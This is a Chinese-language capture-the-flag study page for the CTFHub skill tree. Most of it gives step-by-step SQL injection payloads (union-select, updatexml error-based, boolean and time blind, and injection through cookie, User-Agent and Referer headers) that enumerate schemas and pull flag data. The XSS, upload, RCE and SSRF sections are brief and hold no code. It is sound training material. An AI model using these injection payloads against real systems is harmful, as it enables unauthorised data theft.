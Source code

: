 # CTFHUB 技能树笔记

## SQL 注入

### 1. 整数型注入
- **判断字段数**：输入 `1 order by {val}`，逐步测试确定查询的字段数量。
  ![sql 1](./images/sql1.png)
- **查询数据库**：构造 `-1 union select 1,group_concat(schema_name) from information_schema.schemata`，显示所有数据库。
  ![sql 2](./images/sql2.png)
- **查询表**：构造 `-1 union select 1,group_concat(table_name) from information_schema.tables where table_schema='sqli'`，显示 `sqli` 数据库中的表。
  ![sql 3](./images/sql3.png)
- **查询字段**：构造 `-1 union select 1,group_concat(column_name) from information_schema.columns where table_schema='sqli' and table_name='flag'`，显示 `flag` 表的字段。
  ![sql 4](./images/sql4.png)
- **获取 Flag**：构造 `-1 union select 1,group_concat(flag) from sqli.flag`，获取 `flag`。
  ![sql 5](./images/sql5.png)

### 2. 字符型注入
- **判断字段数**：输入 `1' order by {val} #`，测试查询的字段数量。
  ![sql 6](./images/sql6.png)
- **查询数据库**：构造 `-1' union select 1,group_concat(schema_name) from information_schema.schemata #`，显示所有数据库。
  ![sql 7](./images/sql7.png)
- **查询表**：构造 `-1' union select 1,group_concat(table_name) from information_schema.tables where table_schema='sqli' #`，显示 `sqli` 数据库中的表。
  ![sql 8](./images/sql8.png)
- **查询字段**：构造 `-1' union select 1,group_concat(column_name) from information_schema.columns where table_schema='sqli' and table_name='flag' #`，显示 `flag` 表的字段。
  ![sql 9](./images/sql9.png)
- **获取 Flag**：构造 `-1' union select 1,group_concat(flag) from sqli.flag #`，获取 `flag`。
  ![sql 10](./images/sql10.png)

### 3. 报错注入
- **触发报错**：输入 `1' asdsad`，观察输出报错信息。
  ![sql 11](./images/sql11.png)
- **查询数据库**：构造 `1 or updatexml(1,concat(0x7e,(select schema_name from information_schema.schemata limit 3,1),0x7e),1)`，通过报错发现 `sqli` 数据库。
- **查询表**：构造 `1 or updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema='sqli' limit 1,1),0x7e),1)`，看到 `flag` 表。
- **查询字段**：构造 `1 or updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_schema='sqli' and table_name='flag' limit 0,1),0x7e),1)`，看到 `flag` 字段。
  ![sql 12](./images/sql12.png)
- **获取 Flag**：构造 `1 or updatexml(1,concat(0x7e,(select flag from sqli.flag limit 0,1),0x7e),1)`，找到 `flag`。
  ![sql 13](./images/sql13.png)

### 4. 布尔盲注
- **测试闭合**：构造 `1 and 1=1 #`、`1' and 1=1 #`、`1" and 1=1 #`、`1') and 1=1 #`、`1") and 1=1 #` 等，多次注入测试。
- **判断逻辑**：输入 `a`、`null`、`true`、`false` 等，发现只有 `true`、`1`、`2` 返回正常，推测后端代码为 `if(xxx)` 的形式，需返回 `true`。
- **构造语句**：使用 `if(length(select database())=1,1,0)`，结合脚本实现。
  ![sql 14](./images/sql14.png)
- **脚本参考**：[布尔盲注脚本](./geturl.py)

### 5. 时间盲注
- **检测注入**：输入 `1 and sleep(10)`，一发入魂，确认存在时间盲注。
  ![sql 15](./images/sql15.png)
- **使用工具**：结合 `sqlmap` 进行自动化测试。
  ![sql 16](./images/sql16.png)

### 6. MySQL 结构
- **特点**：MySQL 的 `information_schema` 库方便获取数据库、表、字段信息，利于注入。
- **找到注入点**：
  ![sql 17](./images/sql17.png)
- **获取 Flag**：
  ![sql 18](./images/sql18.jpeg)

### 7. Cookie 注入
- **测试注入**：
  ![sql 19](./images/sql19.jpeg)
- **抓包分析**：使用 Burp Suite 抓包。
  ![sql 20](./images/sql20.png)
- **找到闭合**：
  ![sql 21](./images/sql21.png)
- **获取 Flag**：
  ![sql 22](./images/sql22.png)

### 8. UA 注入
- **测试注入点**：将请求丢进 Burp Suite，修改 User-Agent 头部，测试注入点。
  ![sql 23](./images/sql23.png)
- **获取 Flag**：确认注入点后直接获取 `flag`。
  ![sql 24](./images/sql24.png)

### 9. Referer 注入
- **添加头部**：请求中无 Referer，手动添加并测试注入。
  ![sql 25](./images/sql25.png)
- **获取 Flag**：
  ![sql 26](./images/sql26.png)

### 10. 过滤空格
- **绕过方法**：用 `/**/` 代替空格。
  ![sql 27](./images/sql27.png)
- **获取 Flag**：
  ![sql 28](./images/sql28.png)

## XSS
CTFHUB的XSS题目很简单，找XSS平台，检查前端页面，注意构造闭合即可轻松通过，略。

## 文件上传
准备好Webshell和蚁剑，直接打通，略。

## RCE
简单文件包含和RCE，略。

## SSRF
略。
